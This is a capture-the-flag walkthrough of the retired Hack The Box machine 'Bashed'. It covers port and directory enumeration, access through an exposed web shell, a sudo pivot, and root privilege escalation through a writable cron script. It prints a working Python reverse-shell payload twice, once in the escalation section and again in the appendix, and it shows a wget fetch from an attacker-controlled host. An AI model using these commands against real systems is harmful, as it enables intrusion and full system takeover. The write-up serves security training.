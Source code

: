 # Hack The Box: Bashed (Retired)

- **Target:** Bashed  
- **Difficulty:** Easy (felt medium as first box)  
- **Date Completed:** September 16, 2025  
- **Notes:** All sensitive info redacted to comply with HTB Terms of Service.  
- **Tags:** #HTB #OSCP #PrivilegeEscalation #CronJobs #pspy #WebShell #Linux

---

## Initial Enumeration

### 1. Nmap Scan

nmap -sC -sV -p- --min-rate=1000 <target-ip>
Open port: 80/tcp

Service: Apache HTTPD 2.4.18 (Ubuntu)

HTTP Title: Arrexel's Development Site

Noticed a GitHub link on the site: https://github.com/Arrexel/phpbash

### 2. Web Discovery & Directory Enumeration
Accessed the site and explored links.

Used gobuster for directory brute-forcing:


gobuster dir -u http://<target-ip> -w /usr/share/wordlists/dirbuster/directory-list-2.3-common.txt
Found interesting directories: /dev, /php, /uploads (others seemed generic).

/dev gave HTTP 301 but was accessible via browser.

Located the semi-interactive web shell at:
http://<target-ip>/dev/phpbash.php

Note: phpbash is a lightweight web shell for penetration testing (found on GitHub linked from the dev site).

## Foothold -  Web Shell Access
Accessed the web shell as www-data:

$whoami
www-data

$id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

$ls -lha /home
Found users: arrexel, scriptmanager, root
Explored user directories: suspected user flags would be in /home/arrexel or /home/scriptmanager.


## User Flag Capture
Navigated to /home/arrexel:

$cat /home/arrexel/user.txt
User flag captured: (redacted)

## Privilege Escalation
1. Initial Checks
Checked sudo permissions:
$sudo -l
# As www-data, can run commands as user scriptmanager without password
Switched user to scriptmanager:


$sudo -u scriptmanager /bin/bash
$whoami
scriptmanager
$sudo -l
scriptmanager requires password; no root permissions granted.

2. Cronjob Enumeration with pspy
Downloaded and ran pspy64 to monitor cron jobs in real time.

Reverse Shell from Target Machine:
$uname -a
Target machine has 64 bit OS. Hence download PSPY64
$which curl
curl not available in target machine
$which wget
wget available. Hence using wget to download PSPY64 from attacker machine

Attacker machine Terminal:
$wget https://github.com/DominicBreuker/pspy/releases/latest/download/pspy64
Set the HTTP server running in attacker side
$python -m http.server 8000

Reverse Shell from Target Machine:
$wget http://$Attacker_IP:8000/pspy64 -O pspy64
$./pspy64

Discovered:

Cron runs /scripts/test.py as root every minute.

/scripts directory is writable.

test.py creates/overwrites test.txt with root privileges.

3. Exploiting Cron for Root Shell
Edited /scripts/test.py to include a reverse shell payload (Python):


import socket, subprocess, os
s = socket.socket()
s.connect(("<attacker-ip>", <port>))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
subprocess.call(["/bin/bash"])
Set up nc -lvnp <port> listener on attacker machine.

After cron ran the modified script, got a root shell.

## Root Flag Capture
Accessed root directory:


cd /root
cat root.txt
Root flag captured: (redacted)

## Learnings & Reflections
Web shells like phpbash can give powerful footholds.

sudo -u <user> without a password can be a privilege escalation path.

pspy is invaluable for real-time cron/job enumeration.

Writable root cron scripts are critical escalation vectors.

Upgrading shells with Python pty.spawn makes interaction easier.

Always check cronjobs and scripts for abuse opportunities in Linux pentesting.

⚠️ Note: All IPs, flags, and direct exploit payloads have been removed or redacted to comply with Hack The Box's Terms of Service and responsible disclosure guidelines.

Appendix
Useful Commands Summary
Nmap scan:
nmap -sC -sV -p- --min-rate=1000 <target-ip>

Gobuster directory enumeration:
gobuster dir -u http://<target-ip> -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt

Switch user without password:
sudo -u scriptmanager /bin/bash

Reverse shell python payload for cron job (replace IP and port):
import socket, subprocess, os
s = socket.socket()
s.connect(("<attacker-ip>", <port>))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
subprocess.call(["/bin/bash"])
Tags
#HTB #OSCP #WebShell #PrivilegeEscalation #CronJobs #pspy #Linux #Writeup